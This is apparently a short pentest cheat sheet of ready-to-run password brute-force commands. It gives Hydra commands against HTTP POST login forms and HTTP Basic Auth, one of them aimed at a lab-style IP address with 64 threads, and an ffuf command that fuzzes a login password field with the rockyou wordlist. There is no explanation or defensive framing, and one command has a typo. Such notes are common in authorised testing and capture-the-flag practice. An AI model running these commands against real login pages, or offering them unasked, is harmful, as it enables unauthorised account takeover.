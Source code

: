 ## Hydra Bruteforce Password
'''
hydra -l USER-P /usr/share/wordlists/rockyou.txt TARGET http-post-form "/api/login:username=^USER^&password=^PASS^:response"
'''
### BASIC AUTH
'''
hydra -l USER -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/best1050.txt "https-get://TARGET.com/client/:A=BASIC:F=401"
'''

'''
hydra -l USER -P /usr/share/wordlists/rockyou.txt 10.10.121.156 http-post-form "/login.php:user=^USER^&password=^PASS^&submit_creds=Login:ERROR" -t 64 -V
'''


## FFUF Bruteforce Password
'''
ffuf -w /usr/share/wordlists/rockyou.txt -X POST -d "username=admin\&password=FUZZ" -u https://target/login.php -fs 480
'''




